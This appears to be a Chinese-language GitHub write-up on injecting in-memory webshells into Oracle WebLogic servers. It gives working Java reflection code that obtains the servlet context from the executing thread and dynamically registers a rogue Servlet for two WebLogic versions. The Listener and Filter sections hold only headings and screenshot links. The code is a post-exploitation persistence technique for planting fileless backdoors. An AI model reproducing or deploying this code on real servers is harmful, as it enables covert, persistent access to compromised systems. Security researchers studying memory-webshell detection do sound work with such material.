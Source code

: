 **目录**
- 获取上下文 WebAppServletContext
- 动态注册Servlet内存马  
- 动态注册Listener内存马
- 动态注册Filter内存马 

> 已测试10.3.6.0、12.1.3.0.0


### 获取上下文 WebAppServletContext

- WebAppServletContext

```java
Class<?> executeThread = Class.forName("weblogic.work.ExecuteThread");
Method getCurrentWork = executeThread.getDeclaredMethod("getCurrentWork");
Object currentWork = getCurrentWork.invoke(Thread.currentThread());
WebAppServletContext webAppServletContext;
try { 
	// weblogic 12.1.3
	Field connectionHandler = currentWork.getClass().getDeclaredField("connectionHandler");
	connectionHandler.setAccessible(true);
	Object httpConnectionHandler = connectionHandler.get(currentWork);
	Field requestF = httpConnectionHandler.getClass().getDeclaredField("request");
	requestF.setAccessible(true);
	httpConnectionHandler = requestF.get(httpConnectionHandler);
	java.lang.reflect.Field contextF = httpConnectionHandler.getClass().getDeclaredField("context");
	contextF.setAccessible(true);
	webAppServletContext = (WebAppServletContext) contextF.get(httpConnectionHandler);
} catch (Exception e) {
	// weblogic 1036
	Field contextF = currentWork.getClass().getDeclaredField("context");
	contextF.setAccessible(true);
	webAppServletContext = (WebAppServletContext) contextF.get(currentWork);
}
```

### 动态注册Servlet内存马  

跟了一下从web.xml添加servet的流程，可以使用registerServlet方法注册Servlet，不过不同版本的weblogic对该方法有不同实现:

#### 10.3.6.0
![image](https://user-images.githubusercontent.com/55024146/143993515-f149070e-9ea0-487b-8dbf-fcb8f1682fcd.png)


成员方法
- weblogic.servlet.internal.WebAppServletContext#registerServlet()

![image](https://user-images.githubusercontent.com/55024146/143996030-4614d0d7-e77f-47e6-8540-ec40f41dc296.png)



反射调用
```java
Method registerServlet = webAppServletContext.getClass().getDeclaredMethod("registerServlet", String.class, String.class, String.class, Map.class);
registerServlet.setAccessible(true);
HashMap hashMap = new HashMap();
registerServlet.invoke(webAppServletContext, "TestServlet", "/abcd", servletClass.getName(), hashMap);
```
测试效果

![image](https://user-images.githubusercontent.com/55024146/143996228-773c6cf8-c801-4068-bcd9-8ce03e016de2.png)


#### 12.1.3.0.0

成员方法
- weblogic.servlet.internal.WebAppServletContext#registerServlet()
![image](https://user-images.githubusercontent.com/55024146/143996176-db4ea7f0-568b-492e-b20a-07ef8727f29c.png)


同样的，反射调用

```java
Method registerServlet = webAppServletContext.getClass().getDeclaredMethod("registerServlet", String.class, String.class, String.class);
registerServlet.setAccessible(true);
registerServlet.invoke(webAppServletContext, "TestServlet", "/121300", servletClass.getName());
response.getWriter().write("Servlet Injected Successfully!!!");
```

测试效果

![image](https://user-images.githubusercontent.com/55024146/143996258-5aef7689-b745-4273-95b8-e2f74776bb01.png)



### 动态注册Listener内存马  


### 动态注册Filter内存马  

#### 10.3.6.0

测试效果

![image](https://user-images.githubusercontent.com/55024146/144036760-4c29b12c-2b28-4270-a82b-7c812e2f7922.png)



#### 12.1.3.0.0

测试效果

![image](https://user-images.githubusercontent.com/55024146/144036974-997a4c40-c302-4c21-8770-e8581b6a9104.png)


